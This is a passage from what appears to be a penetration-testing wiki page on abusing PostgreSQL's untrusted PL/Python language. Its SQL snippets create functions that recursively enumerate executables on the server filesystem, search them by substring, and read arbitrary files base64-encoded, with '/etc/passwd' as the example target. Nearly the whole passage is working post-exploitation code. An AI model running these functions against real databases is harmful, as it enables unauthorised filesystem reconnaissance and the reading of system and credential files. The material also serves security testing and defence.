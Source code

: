 ```sql
SELECT findx("/"); #Find an executables in folder (recursively)
```
{% endtab %}

{% tab title="Find exec by subs" %}
```sql
CREATE OR REPLACE FUNCTION find_exe (exe_sea text)
RETURNS VARCHAR(65535) stable
AS $$
    import os
    def my_find(path):
        executables = []
        def find_executables(path):
            if not os.path.isdir(path) and os.access(path, os.X_OK):
                executables.append(path)
            
            if os.path.isdir(path):
                if not os.listdir(path):
                    return
                else:
                    for item in os.listdir(path):
                        find_executables(os.path.join(path, item))
        find_executables(path)
        return executables
    
    a = my_find("/")
    b = []

    for i in a:
        if exe_sea in i:
            b.append(i)
    return ", ".join(b)
$$
LANGUAGE 'plpythonu';

SELECT find_exe("psql"); #Find executable by susbstring
```
{% endtab %}

{% tab title="Read" %}
```sql
CREATE OR REPLACE FUNCTION read (path text)
RETURNS VARCHAR(65535) stable
AS $$
    import base64
    encoded_string= base64.b64encode(open(path).read())
    return encoded_string.decode('utf-8')
    return open(path).read()
$$
LANGUAGE 'plpythonu';

select read('/etc/passwd'); #Read a file in b64
```
{% endtab %}
